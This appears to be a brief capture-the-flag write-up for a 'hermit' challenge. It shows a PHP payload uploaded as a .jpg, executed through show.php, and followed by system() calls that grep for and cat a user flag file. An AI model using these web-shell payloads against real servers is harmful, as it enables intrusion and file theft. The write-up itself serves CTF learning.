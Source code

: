 Create a file ``hermit-file.jpg`` with payload ``<?php phpinfo() ?>``

```bash
http --form -v POST  http://104.197.195.221:8086/upload.php fileToUpload@hermit-file.jpg
```

File has been uploaded to a file with random generate name in ``/var/www/html/uploads/``, and in response we can find the new file name. Now let's visit it

```bash
http -v http://104.197.195.221:8086/show.php?filename=GO6ZR6
```

Phpinfo is shown as expected.

Try to find any file contains the word ``flag``.

```php
<?php system("grep -Ri flag *"); ?>
```

A long list of files come out, some of them contain the following path.

```php
/home/hermit/flag/userflag.txt
```

Try to get the file content.

```php
<?php system("cat /home/hermit/flag/userflag.txt"); ?>
```

In response is the flag.
